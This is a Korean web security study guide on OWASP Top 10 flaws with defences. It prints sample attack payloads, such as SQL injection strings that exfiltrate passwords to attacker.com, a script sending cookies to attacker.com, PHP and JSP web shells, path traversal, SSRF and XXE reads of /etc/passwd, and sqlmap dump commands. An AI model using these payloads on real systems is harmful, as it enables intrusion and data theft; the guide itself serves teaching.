

# 웹 보안

웹 애플리케이션의 보안 취약점과 대응 방법에 대해 학습합니다.

---

## 웹 애플리케이션 구조

### 웹 아키텍처



### 웹 서버 vs WAS

| 구분 | 웹 서버 | WAS |
|------|---------|-----|
| 역할 | 정적 콘텐츠 제공 | 동적 콘텐츠 처리 |
| 예시 | Apache, Nginx, IIS | Tomcat, WebLogic, JBoss |
| 처리 | HTML, CSS, JS, 이미지 | JSP, Servlet, PHP, ASP |

### HTTP 프로토콜

#### HTTP 요청 구조

```
GET /index.html HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0
Accept: text/html
Cookie: session=abc123
```

| 구성요소 | 설명 |
|---------|------|
| 요청 라인 | 메서드, URI, 버전 |
| 헤더 | 요청 메타데이터 |
| 빈 줄 | 헤더와 본문 구분 |
| 본문 | 요청 데이터 (POST 등) |

#### HTTP 응답 구조

```
HTTP/1.1 200 OK
Content-Type: text/html
Set-Cookie: session=xyz789
Content-Length: 1234

<html>...</html>
```

---

## OWASP Top 10 (2021)

### 개요

| 순위 | 취약점 | 설명 |
|------|--------|------|
| A01 | Broken Access Control | 접근 제어 취약점 |
| A02 | Cryptographic Failures | 암호화 실패 |
| A03 | Injection | 인젝션 공격 |
| A04 | Insecure Design | 안전하지 않은 설계 |
| A05 | Security Misconfiguration | 보안 설정 오류 |
| A06 | Vulnerable Components | 취약한 컴포넌트 |
| A07 | Authentication Failures | 인증 실패 |
| A08 | Software and Data Integrity | 소프트웨어/데이터 무결성 |
| A09 | Security Logging Failures | 보안 로깅 실패 |
| A10 | SSRF | 서버 측 요청 위조 |

---

## SQL Injection

### SQL Injection 개요

| 항목 | 설명 |
|------|------|
| 정의 | 사용자 입력을 통해 SQL 쿼리 조작 |
| 원인 | 입력값 검증 미흡, 동적 쿼리 사용 |
| 영향 | 데이터 유출, 변조, 삭제, 권한 상승 |

### SQL Injection 유형

#### 인밴드 SQL Injection

| 유형 | 설명 |
|------|------|
| Error-based | 에러 메시지로 정보 추출 |
| Union-based | UNION 절로 추가 데이터 조회 |

**Error-based 예시**

```sql
-- 입력
' OR 1=CONVERT(int, (SELECT TOP 1 table_name FROM information_schema.tables))--

-- 에러 메시지에서 테이블명 노출
```

**Union-based 예시**

```sql
-- 정상 쿼리
SELECT id, name FROM users WHERE id = '1'

-- 공격
SELECT id, name FROM users WHERE id = '1' UNION SELECT username, password FROM admin--'
```

#### 블라인드 SQL Injection

응답에서 직접 데이터를 볼 수 없을 때 사용합니다.

| 유형 | 설명 |
|------|------|
| Boolean-based | 참/거짓 응답 차이로 추론 |
| Time-based | 응답 시간 차이로 추론 |

**Boolean-based 예시**

```sql
-- 첫 번째 문자가 'a'인지 확인
' AND SUBSTRING(username,1,1)='a'--

-- 참이면 정상 페이지, 거짓이면 다른 응답
```

**Time-based 예시**

```sql
-- 조건이 참이면 5초 대기
' AND IF(1=1, SLEEP(5), 0)--

-- MySQL
' AND SLEEP(5)--

-- MSSQL
'; WAITFOR DELAY '0:0:5'--

-- Oracle
' AND DBMS_PIPE.RECEIVE_MESSAGE('a',5)=1--
```

#### Out-of-Band SQL Injection

| 항목 | 설명 |
|------|------|
| 원리 | DNS, HTTP 등 외부 채널로 데이터 추출 |
| 조건 | 서버가 외부 연결 가능 |

```sql
-- MSSQL xp_dirtree로 DNS 쿼리
'; EXEC master..xp_dirtree '\\attacker.com\share'--

-- Oracle UTL_HTTP
' UNION SELECT UTL_HTTP.REQUEST('http://attacker.com/'||password) FROM users--
```

### SQL Injection 대응

| 대응 | 설명 |
|------|------|
| Prepared Statement | 파라미터화된 쿼리 사용 |
| Stored Procedure | 저장 프로시저 사용 |
| 입력값 검증 | 화이트리스트 방식 |
| 최소 권한 | DB 계정 권한 제한 |
| 에러 처리 | 상세 에러 메시지 숨김 |
| WAF | 웹 방화벽 적용 |

**Prepared Statement 예시**

```java
// 취약한 코드
String query = "SELECT * FROM users WHERE id = '" + userInput + "'";

// 안전한 코드
PreparedStatement stmt = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
stmt.setString(1, userInput);
```

### SQLMap

SQL Injection 자동화 도구입니다.

```bash
# 기본 스캔
sqlmap -u "http://example.com/page?id=1"

# POST 데이터
sqlmap -u "http://example.com/login" --data="user=admin&pass=test"

# 데이터베이스 목록
sqlmap -u "http://example.com/page?id=1" --dbs

# 테이블 목록
sqlmap -u "http://example.com/page?id=1" -D database_name --tables

# 데이터 덤프
sqlmap -u "http://example.com/page?id=1" -D database_name -T table_name --dump
```

---

## XSS (Cross-Site Scripting)

### XSS 개요

| 항목 | 설명 |
|------|------|
| 정의 | 악성 스크립트를 웹 페이지에 삽입 |
| 영향 | 쿠키 탈취, 세션 하이재킹, 피싱 |
| 실행 위치 | 피해자 브라우저 |

### XSS 유형

#### Reflected XSS (반사형)

| 항목 | 설명 |
|------|------|
| 동작 | 요청에 포함된 스크립트가 응답에 반사 |
| 전달 | URL, 이메일, 메시지 링크 |
| 지속성 | 비지속적 (1회성) |

```
http://example.com/search?q=<script>alert('XSS')</script>
```

#### Stored XSS (저장형)

| 항목 | 설명 |
|------|------|
| 동작 | 악성 스크립트가 서버에 저장 |
| 위치 | 게시판, 댓글, 프로필 등 |
| 지속성 | 지속적 (모든 방문자 영향) |

```html
<!-- 게시글에 저장된 악성 스크립트 -->
<script>
  document.location='http://attacker.com/steal?cookie='+document.cookie
</script>
```

#### DOM-based XSS

| 항목 | 설명 |
|------|------|
| 동작 | 클라이언트 측 JavaScript에서 DOM 조작 |
| 특징 | 서버를 거치지 않음 |
| 탐지 | 서버 로그에 기록 안 됨 |

```javascript
// 취약한 코드
document.getElementById('output').innerHTML = location.hash.substring(1);

// 공격
http://example.com/page#
```

### XSS 공격 페이로드

| 페이로드 | 설명 |
|---------|------|
| `<script>alert('XSS')</script>` | 기본 스크립트 |
| `` | 이미지 에러 이벤트 |
| `<svg onload=alert('XSS')>` | SVG 로드 이벤트 |
| `<body onload=alert('XSS')>` | 바디 로드 이벤트 |
| `<input onfocus=alert('XSS') autofocus>` | 포커스 이벤트 |
| `javascript:alert('XSS')` | JavaScript URL |

### XSS 우회 기법

| 기법 | 예시 |
|------|------|
| 대소문자 혼합 | `<ScRiPt>` |
| 인코딩 | `%3Cscript%3E`, `&#60;script&#62;` |
| 태그 변형 | `<scr<script>ipt>` |
| 이벤트 핸들러 | `` |
| 데이터 URL | `<a href="data:text/html,<script>...">` |

### XSS 대응

| 대응 | 설명 |
|------|------|
| 출력 인코딩 | HTML Entity 인코딩 |
| 입력 검증 | 화이트리스트 방식 |
| CSP | Content-Security-Policy 헤더 |
| HttpOnly | 쿠키 JavaScript 접근 차단 |
| X-XSS-Protection | 브라우저 XSS 필터 (레거시) |

**HTML Entity 인코딩**

| 문자 | 인코딩 |
|------|--------|
| `<` | `&lt;` |
| `>` | `&gt;` |
| `&` | `&amp;` |
| `"` | `&quot;` |
| `'` | `&#x27;` |

**CSP (Content-Security-Policy)**

```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com
```

| 지시어 | 설명 |
|--------|------|
| default-src | 기본 정책 |
| script-src | 스크립트 소스 |
| style-src | 스타일 소스 |
| img-src | 이미지 소스 |
| connect-src | AJAX/WebSocket 대상 |
| frame-src | 프레임 소스 |

---

## CSRF (Cross-Site Request Forgery)

### CSRF 개요

| 항목 | 설명 |
|------|------|
| 정의 | 인증된 사용자가 의도치 않은 요청 실행 |
| 조건 | 피해자가 로그인 상태 |
| 영향 | 비밀번호 변경, 송금, 설정 변경 |

### CSRF 동작 원리

```
1. 사용자가 은행 사이트에 로그인
2. 공격자 사이트 방문 (또는 이메일 링크 클릭)
3. 공격자 페이지에서 은행으로 요청 전송
4. 브라우저가 자동으로 쿠키 포함
5. 은행 서버는 정상 요청으로 처리
```

### CSRF 공격 예시

```html
<!-- 이미지 태그로 GET 요청 -->


<!-- 숨겨진 폼으로 POST 요청 -->
<form action="http://bank.com/transfer" method="POST" id="csrf-form">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="10000">
</form>
<script>document.getElementById('csrf-form').submit();</script>
```

### CSRF 대응

| 대응 | 설명 |
|------|------|
| CSRF 토큰 | 예측 불가능한 토큰 검증 |
| SameSite 쿠키 | 크로스사이트 요청 시 쿠키 미전송 |
| Referer 검증 | 요청 출처 확인 |
| 재인증 | 중요 작업 시 비밀번호 확인 |
| CAPTCHA | 자동화 방지 |

**CSRF 토큰 구현**

```html
<!-- 폼에 토큰 포함 -->
<form action="/transfer" method="POST">
  <input type="hidden" name="csrf_token" value="random_token_here">
  ...
</form>
```

```python
# 서버 측 검증
if request.form['csrf_token'] != session['csrf_token']:
    abort(403)
```

**SameSite 쿠키**

```
Set-Cookie: session=abc123; SameSite=Strict
Set-Cookie: session=abc123; SameSite=Lax
```

| 값 | 설명 |
|----|------|
| Strict | 크로스사이트 요청 시 쿠키 미전송 |
| Lax | 안전한 메서드(GET)의 탑레벨 네비게이션만 허용 |
| None | 모든 요청에 쿠키 전송 (Secure 필수) |

---

## 파일 업로드 취약점

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | 악성 파일 업로드를 통한 공격 |
| 영향 | 웹쉘 업로드, 코드 실행, 서버 장악 |

### 공격 유형

| 유형 | 설명 |
|------|------|
| 웹쉘 업로드 | 서버 측 실행 스크립트 업로드 |
| 경로 조작 | 파일명에 경로 포함하여 임의 위치 저장 |
| 덮어쓰기 | 기존 파일 덮어쓰기 |
| DoS | 대용량 파일 업로드 |

### 우회 기법

| 기법 | 설명 |
|------|------|
| 확장자 우회 | .php5, .phtml, .php.jpg |
| MIME 타입 변조 | Content-Type 조작 |
| 매직 바이트 | 파일 시그니처 추가 |
| 널 바이트 | file.php%00.jpg |
| 대소문자 | .PhP, .pHp |

### 웹쉘 예시

```php
<!-- PHP 웹쉘 -->
<?php system($_GET['cmd']); ?>

<!-- JSP 웹쉘 -->
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### 대응 방안

| 대응 | 설명 |
|------|------|
| 화이트리스트 | 허용된 확장자만 업로드 |
| 파일 내용 검사 | 매직 바이트, 파일 구조 검증 |
| 실행 권한 제거 | 업로드 디렉토리 실행 권한 해제 |
| 파일명 변경 | 랜덤 파일명 사용 |
| 별도 저장소 | 웹 루트 외부에 저장 |
| 크기 제한 | 최대 파일 크기 제한 |
| 안티바이러스 | 업로드 파일 검사 |

---

## 파일 다운로드 취약점

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | 경로 조작으로 임의 파일 다운로드 |
| 원인 | 사용자 입력을 파일 경로에 직접 사용 |
| 영향 | 소스코드, 설정파일, 시스템 파일 유출 |

### 공격 예시

```
# 정상 요청
http://example.com/download?file=report.pdf

# 공격 요청 (경로 조작)
http://example.com/download?file=../../../etc/passwd
http://example.com/download?file=....//....//....//etc/passwd
http://example.com/download?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

### 대응 방안

| 대응 | 설명 |
|------|------|
| 경로 문자 필터링 | `../`, `..\\` 제거 |
| 절대 경로 사용 | 기본 디렉토리 + 파일명 |
| 화이트리스트 | 허용된 파일만 다운로드 |
| 파일 ID 사용 | 파일명 대신 ID로 매핑 |

---

## 디렉토리 리스팅

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | 디렉토리 내 파일 목록 노출 |
| 원인 | 웹 서버 설정 미흡 |
| 영향 | 파일 구조 노출, 민감 파일 접근 |

### 대응 방안

**Apache**

```apache
# httpd.conf 또는 .htaccess
Options -Indexes
```

**Nginx**

```nginx
location / {
    autoindex off;
}
```

**IIS**

```
디렉토리 검색 기능 비활성화
```

---

## 인증 및 세션 관리 취약점

### 취약한 인증

| 취약점 | 설명 |
|--------|------|
| 취약한 패스워드 | 짧거나 단순한 패스워드 허용 |
| 무차별 대입 허용 | 로그인 시도 제한 없음 |
| 기본 계정 | 기본 계정/패스워드 사용 |
| 패스워드 평문 저장 | 암호화되지 않은 패스워드 |
| 취약한 복구 | 보안 질문, 이메일 링크 취약 |

### 세션 관리 취약점

| 취약점 | 설명 |
|--------|------|
| 예측 가능한 세션 ID | 순차적, 시간 기반 등 |
| 세션 고정 | 로그인 후 세션 ID 미변경 |
| 세션 탈취 | XSS, 스니핑으로 세션 ID 획득 |
| 세션 타임아웃 미설정 | 무기한 세션 유지 |
| 불완전한 로그아웃 | 서버 측 세션 미삭제 |

### 안전한 세션 관리

| 대응 | 설명 |
|------|------|
| 강력한 세션 ID | 충분한 길이, 무작위 생성 |
| 세션 ID 재생성 | 로그인 시 새 세션 ID |
| 타임아웃 설정 | 유휴 시간 후 세션 만료 |
| HttpOnly | JavaScript 접근 차단 |
| Secure | HTTPS에서만 전송 |
| SameSite | CSRF 방지 |

---

## 보안 헤더

### 주요 보안 헤더

| 헤더 | 설명 |
|------|------|
| Content-Security-Policy | XSS 방지, 리소스 제한 |
| X-Content-Type-Options | MIME 스니핑 방지 |
| X-Frame-Options | 클릭재킹 방지 |
| Strict-Transport-Security | HTTPS 강제 |
| X-XSS-Protection | 브라우저 XSS 필터 (레거시) |
| Referrer-Policy | Referer 헤더 제어 |
| Permissions-Policy | 브라우저 기능 제한 |

### 헤더 설정 예시

```
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Strict-Transport-Security: max-age=31536000; includeSubDomains
Referrer-Policy: strict-origin-when-cross-origin
```

### X-Frame-Options

| 값 | 설명 |
|----|------|
| DENY | 프레임 삽입 완전 차단 |
| SAMEORIGIN | 같은 출처만 허용 |
| ALLOW-FROM uri | 특정 출처만 허용 (레거시) |

---

## 클릭재킹 (Clickjacking)

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | 투명한 프레임으로 사용자 클릭 유도 |
| 방법 | iframe으로 대상 사이트 삽입, 투명화 |
| 영향 | 의도치 않은 동작 실행 |

### 공격 예시

```html
<style>
  iframe {
    position: absolute;
    opacity: 0;
    z-index: 2;
  }
  button {
    position: absolute;
    z-index: 1;
  }
</style>

<button>Click for Prize!</button>
<iframe src="http://bank.com/transfer?to=attacker&amount=10000"></iframe>
```

### 대응 방안

| 대응 | 설명 |
|------|------|
| X-Frame-Options | 프레임 삽입 제한 |
| CSP frame-ancestors | 프레임 부모 제한 |
| JavaScript 방어 | 프레임 탈출 스크립트 |

```javascript
// Frame Busting
if (top !== self) {
    top.location = self.location;
}
```

---

## SSRF (Server-Side Request Forgery)

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | 서버가 공격자가 지정한 URL로 요청 |
| 원인 | 사용자 입력을 URL에 직접 사용 |
| 영향 | 내부 시스템 접근, 메타데이터 탈취 |

### 공격 시나리오

| 시나리오 | 설명 |
|---------|------|
| 내부망 스캔 | 내부 IP/포트 스캔 |
| 클라우드 메타데이터 | AWS/GCP 메타데이터 서버 접근 |
| 파일 읽기 | file:// 프로토콜 사용 |
| 서비스 공격 | 내부 서비스 악용 |

### 공격 예시

```
# 정상 요청
http://example.com/fetch?url=http://api.example.com/data

# 내부망 접근
http://example.com/fetch?url=http://192.168.1.1/admin

# AWS 메타데이터
http://example.com/fetch?url=http://169.254.169.254/latest/meta-data/

# 파일 읽기
http://example.com/fetch?url=file:///etc/passwd
```

### 우회 기법

| 기법 | 예시 |
|------|------|
| IP 변환 | 127.0.0.1 → 2130706433 (정수) |
| 단축 URL | 리다이렉트 서비스 |
| DNS Rebinding | DNS 응답 조작 |
| URL 인코딩 | %31%32%37... |
| IPv6 | ::1, 0:0:0:0:0:ffff:127.0.0.1 |

### 대응 방안

| 대응 | 설명 |
|------|------|
| 화이트리스트 | 허용된 URL/도메인만 |
| 블랙리스트 | 내부 IP 대역 차단 |
| 프로토콜 제한 | HTTP/HTTPS만 허용 |
| DNS 확인 | 최종 IP 주소 검증 |
| 네트워크 분리 | 서버 네트워크 격리 |

---

## XXE (XML External Entity)

### 개요

| 항목 | 설명 |
|------|------|
| 정의 | XML 외부 엔티티를 이용한 공격 |
| 원인 | XML 파서의 외부 엔티티 처리 허용 |
| 영향 | 파일 읽기, SSRF, DoS |

### 공격 예시

**파일 읽기**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

**SSRF**

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server/admin">
]>
<data>&xxe;</data>
```

**Billion Laughs (DoS)**

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ...
]>
<lolz>&lol9;</lolz>
```

### 대응 방안

| 대응 | 설명 |
|------|------|
| 외부 엔티티 비활성화 | XML 파서 설정 |
| DTD 비활성화 | DTD 처리 차단 |
| JSON 사용 | XML 대신 JSON |
| 입력 검증 | XML 구조 검증 |

```java
// Java에서 XXE 방지
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

---

## 웹 취약점 스캐너

### 자동화 도구

| 도구 | 유형 | 설명 |
|------|------|------|
| OWASP ZAP | 오픈소스 | 웹 앱 취약점 스캐너 |
| Burp Suite | 상용/무료 | 웹 프록시, 스캐너 |
| Nikto | 오픈소스 | 웹 서버 스캐너 |
| Acunetix | 상용 | 웹 앱 스캐너 |
| Netsparker | 상용 | 웹 앱 스캐너 |
| w3af | 오픈소스 | 웹 앱 공격 프레임워크 |

### Burp Suite 기능

| 기능 | 설명 |
|------|------|
| Proxy | HTTP/HTTPS 트래픽 가로채기 |
| Spider | 웹 사이트 크롤링 |
| Scanner | 자동 취약점 스캔 (Pro) |
| Intruder | 자동화 공격 |
| Repeater | 요청 수정 및 재전송 |
| Decoder | 인코딩/디코딩 |
| Comparer | 응답 비교 |

---

## 용어 해설

| 용어 | 설명 |
|------|------|
| WAS (Web Application Server) | 동적 콘텐츠를 처리하는 서버. Tomcat, WebLogic, JBoss 등. 웹 서버와 달리 비즈니스 로직 실행 |
| OWASP | Open Web Application Security Project. 웹 애플리케이션 보안 관련 오픈소스 커뮤니티 |
| SQL Injection | 사용자 입력을 통해 SQL 쿼리를 조작하여 데이터베이스를 공격하는 기법 |
| Prepared Statement | SQL 쿼리와 파라미터를 분리하여 SQL Injection을 방지하는 방식. 파라미터화된 쿼리 |
| 인밴드 (In-band) SQL Injection | 공격 결과가 응답에 직접 표시되는 SQL Injection. Error-based, Union-based 포함 |
| 블라인드 (Blind) SQL Injection | 응답에서 데이터를 직접 볼 수 없어 참/거짓이나 시간 지연으로 추론하는 SQL Injection |
| Out-of-Band SQL Injection | DNS, HTTP 등 외부 채널로 데이터를 추출하는 SQL Injection |
| XSS (Cross-Site Scripting) | 악성 스크립트를 웹 페이지에 삽입하여 피해자 브라우저에서 실행시키는 공격 |
| Reflected XSS | 요청에 포함된 스크립트가 응답에 반사되어 실행되는 일회성 XSS |
| Stored XSS | 악성 스크립트가 서버에 저장되어 모든 방문자에게 영향을 주는 지속적 XSS |
| DOM-based XSS | 서버를 거치지 않고 클라이언트 측 JavaScript에서 DOM 조작으로 발생하는 XSS |
| CSP (Content-Security-Policy) | 웹 페이지에서 로드할 수 있는 리소스를 제한하는 HTTP 보안 헤더. XSS 방어에 효과적 |
| CSRF (Cross-Site Request Forgery) | 인증된 사용자가 자신의 의지와 무관하게 공격자가 의도한 요청을 실행하게 하는 공격 |
| CSRF 토큰 | CSRF 방어를 위해 폼에 포함되는 예측 불가능한 값. 서버에서 검증 |
| SameSite 쿠키 | 크로스사이트 요청 시 쿠키 전송을 제어하는 속성. Strict, Lax, None 값 사용 |
| HttpOnly 쿠키 | JavaScript에서 접근할 수 없는 쿠키 속성. XSS로부터 세션 ID 보호 |
| Secure 쿠키 | HTTPS 연결에서만 전송되는 쿠키 속성 |
| 웹쉘 (Web Shell) | 웹 서버에 업로드되어 원격으로 명령을 실행할 수 있게 하는 악성 스크립트 |
| 경로 조작 (Path Traversal) | ../를 이용하여 허용되지 않은 디렉토리의 파일에 접근하는 공격. Directory Traversal |
| 디렉토리 리스팅 | 웹 서버가 디렉토리 내 파일 목록을 노출하는 취약점 |
| Session Fixation | 공격자가 미리 설정한 세션 ID를 피해자가 사용하도록 유도하는 공격 |
| 보안 헤더 (Security Headers) | XSS, 클릭재킹 등을 방지하기 위해 HTTP 응답에 포함하는 헤더들 |
| X-Frame-Options | iframe/frame에 페이지 삽입을 제어하는 헤더. 클릭재킹 방지 |
| X-Content-Type-Options | MIME 스니핑을 방지하는 헤더. nosniff 값 사용 |
| HSTS (HTTP Strict Transport Security) | 브라우저에 HTTPS 사용을 강제하는 헤더 |
| 클릭재킹 (Clickjacking) | 투명한 iframe으로 사용자가 의도치 않은 클릭을 하도록 유도하는 공격 |
| SSRF (Server-Side Request Forgery) | 서버가 공격자가 지정한 URL로 요청을 보내게 하는 공격. 내부 시스템 접근에 악용 |
| XXE (XML External Entity) | XML 외부 엔티티 기능을 악용하여 파일을 읽거나 SSRF를 수행하는 공격 |
| DTD (Document Type Definition) | XML 문서의 구조를 정의하는 선언. XXE 공격에서 엔티티 정의에 사용 |
| Billion Laughs | XML 엔티티를 재귀적으로 참조하여 메모리를 고갈시키는 DoS 공격 |
| Burp Suite | 웹 애플리케이션 보안 테스트를 위한 통합 플랫폼. 프록시, 스캐너, 인트루더 기능 제공 |
| OWASP ZAP | Zed Attack Proxy. 오픈소스 웹 애플리케이션 취약점 스캐너 |
| HTML Entity 인코딩 | HTML 특수문자를 &lt; &gt; 등으로 변환하여 XSS 방지 |
| SQLMap | SQL Injection을 자동화하는 오픈소스 도구. 데이터베이스 덤프 기능 제공 |

---

## 핵심 키워드

`OWASP Top 10` `SQL Injection` `Blind SQL Injection` `XSS` `Reflected XSS` `Stored XSS` `DOM XSS` `CSRF` `CSRF 토큰` `SameSite` `파일 업로드` `웹쉘` `파일 다운로드` `디렉토리 리스팅` `세션 관리` `보안 헤더` `CSP` `X-Frame-Options` `클릭재킹` `SSRF` `XXE` `Burp Suite` `OWASP ZAP`
